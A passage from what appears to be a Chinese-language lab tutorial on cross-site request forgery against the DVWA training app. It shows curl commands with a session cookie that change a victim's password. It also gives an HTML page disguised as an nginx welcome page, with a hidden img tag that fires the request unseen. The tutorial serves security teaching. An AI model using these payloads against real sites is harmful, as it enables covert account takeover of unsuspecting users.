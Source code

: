 这样的方式过于简单粗暴，用户一看就看出来，不会去点击，我们可以将其伪装成一个下载连接，点击了就中招，我们可以将其伪装成一个图片，点击了就中招，等等。

若是在知道对方的 cookie 情况下，我们还可以使用 curl 来完成这一步：

我们在本地使用可以通过 F12 中网络选项查看到 cookie 值：

![show-cookie](https://doc.shiyanlou.com/document-uid113508labid2429timestamp1482822490232.png/wm)

然后我们在 shiyanlou 终端中使用这样的命令：

```
curl --cookie "security=low; PHPSESSID=fefebfdeb6c27d8fac926ee5b735b714" --location "http://192.168.122.102/dvwa/vulnerabilities/csrf/?password_new=shiyanlou&password_conf=shiyanlou&Change=Change#"
```

注意此处的 cookie 应该输入你自己的 cookie，然后在 URL 中 password 输入自己想输入的 URL。

执行了之后我们可以看到为我们返回了一个页面的源代码回来：

![show-code](https://doc.shiyanlou.com/document-uid113508labid2429timestamp1482822506572.png/wm)

细心的同学会找到 `<pre> Password Changed </pre>` 的字样，说明我们修改成功了。

若是不想找，我们还可以把刚刚的命令修改成这样：

```
curl --cookie "security=low; PHPSESSID=fefebfdeb6c27d8fac926ee5b735b714" --location "http://192.168.122.102/dvwa/vulnerabilities/csrf/?password_new=shiyanlou&password_conf=shiyanlou&Change=Change#" | grep Password
```

![show-code-changed](https://doc.shiyanlou.com/document-uid113508labid2429timestamp1482822531186.png/wm)

验证一下我们是否成功登陆，只需要关闭浏览器、重新打开尝试登陆，或者点击左下角的 `logout` 然后重新登陆便可知道。

还可以通过这样的方式让用户在不知不觉下就中招（该创意参考于 [tipstrickshack_blog](http://tipstrickshack.blogspot.com/2012/10/how-to-exploit-csfr-vulnerabilitycsrf.html)）：

创建一个 404 的页面，使用 img 标签，使用 css 来使其不现实，这样用户就在不知不觉直接就中招了。

首先我们在 shiyanlou 账户的终端下创建一个 test 的 html：

```
vim test.html
```

然后在该文件中存放这样的内容：

```html
<html>
<body>

<img src="http://192.168.122.102/dvwa/vulnerabilities/csrf/?password_new=shiyanlou_html&password_conf=shiyanlou_html&Change=Change#" border="0" style="display:none;"/>

<h1>Welcome to nginx!</h1>

</body>

</html>
```
